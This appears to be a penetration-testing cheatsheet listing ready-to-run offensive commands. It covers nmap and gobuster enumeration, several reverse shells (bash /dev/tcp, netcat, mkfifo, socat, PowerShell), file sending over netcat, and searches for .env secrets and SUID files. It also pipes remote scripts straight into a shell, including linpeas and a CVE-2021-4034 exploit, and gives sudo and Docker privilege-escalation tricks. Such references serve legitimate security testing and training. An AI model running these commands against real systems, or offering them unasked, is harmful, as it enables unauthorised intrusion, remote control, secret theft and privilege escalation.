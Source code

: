 # CHEATSHEET
### 
### 
## NETWORK ENUMERATION

### HOST DISCOVERY
```bash
arp-scan -I <INTERFACE> --localnet --ignoredups
```

### TCP OPEN PORTS
```bash
nmap -p- --open -sS -n -v -Pn --min-rate 5000 -oG allPorts <TARGET> 
```

### INFO & VERSION
```bash
nmap -p<PORTS> -sCV -oN portScan <TARGET>
```

### HTTP ENUMERATION
Enumerate common directories and files with nmap
```bash
nmap -p<PORTS> --script http-enum -oN webScan <TARGET>
```
Gobuster
```bash
# Directories
gobuster dir -u <URL> -w <WORDLIST>

# Files by extension
gobuster dir -u <URL> -w <WORDLIST> -x http,php,txt

# Subdomains
gobuster vhost -u <URL> -w <WORDLIST>

# Useful parameters
--threads, -t
--exclude-length
--status-codes, -s
--status-codes-blacklist, -b
--no-tls-validation, -k
--timeout
```



## REVERSE SHELLS

### BASH
```bash
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

### NETCAT
```bash
nc -e /bin/bash <IP> <PORT>
```

### MKFIFO
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f
```

### SOCAT
```bash
socat tcp-connect:<IP>:<PORT> exec:/bin/bash,pty,stderr,setsid,sigint,sane
```

### POWERSHELL
```powershell
$client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String);$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

### INTERACTIVE TTY
```bash
script /dev/null -c bash
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
# Check size in another window: stty size
stty rows <ROWS> columns <COLUMNS>
```



## SHARE AND DOWNLOAD

### HTTP SERVER
```bash
# Python3
python3 -m http.server <PORT>

# Python2
python -m SimpleHTTPServer <PORT>

# PHP
php -S 0.0.0.0:<PORT>
```

### SMB 
```bash
smbserver.py <NAME> $(pwd) -smb2support
```

### FILE TRANSFER ( NETCAT - BASH ) 
```bash
# Listen
nc -nlvp <PORT> > <FILE>

# Send
cat <FILE> | nc <IP> <PORT>  # Netcat
cat <FILE> > /dev/tcp/<IP>/<PORT>  # Bash
```

### DOWNLOAD 
#### Powershell
```powershell
(New-Object Net.WebClient).DownloadString('<URL>') > <PATH>
```

####Cmd
```shell
certutil -urlcache -split -f <URL> <PATH>
```

#### Bash
```bash
wget "http://<IP>/"
```



## SYSTEM ENUMERATION

### Enviroment Variables
```bash
# User enviroment variables
env || set

# Common project enviroment file
find / -name ".env" 2>/dev/null
```

### Find SUID on GUID files
```bash
# SUID
find / -perm -4000 2>/dev/null

# GUID
find / -perm -2000 2>/dev/null
```

### Check capabilities
```bash
getcap -r / 2>/dev/null
```

### Open local ports
```bash
ss -nltp
```

### Cron Jobs
```bash
# Cron files
find /etc -name "cron*" 2>/dev/null

# Logs
ls -l /var/log/syslog
ls -l /var/log/cron
```

### Monitoring processes
```bash
old_ps=$(ps -eo user,command); while true; do; new_ps=$(ps -eo user,command); diff <(echo "$old_ps") <(echo "$new_ps") | grep "[\>\<]" |grep -Ev "kworker|user,command"; old_ps=$new_ps; done
```

### Scripts with write permissions
```bash
find / -user <USER> -perm -o+w \( -name \"*.sh\" -O -name \"*.py\" -O -name \"*.pl\" -O -name \"*.rb\" -O -name \"*.go\" -O -name \"*.lua\" \) 2>/dev/null
```

### LinPEAS
```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```



## PRIVILEGE ESCALATION

### Sudo
```bash
# List user privileges
sudo -l

# Check sudo version
sudo -V | grep "Sudo ver"

# Sudo < v1.28
sudo -u#-1 /bin/bash
```

### Polkit - (CVE-2021-4034)
```bash
# Check pkexec permissions
ls -l $(which pkexec)

# If pkexec has SUID
curl -L https://raw.githubusercontent.com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py | python3
```

### Docker
```bash
docker run -it --rm -v /:/mnt alpine chroot /mnt sh
```

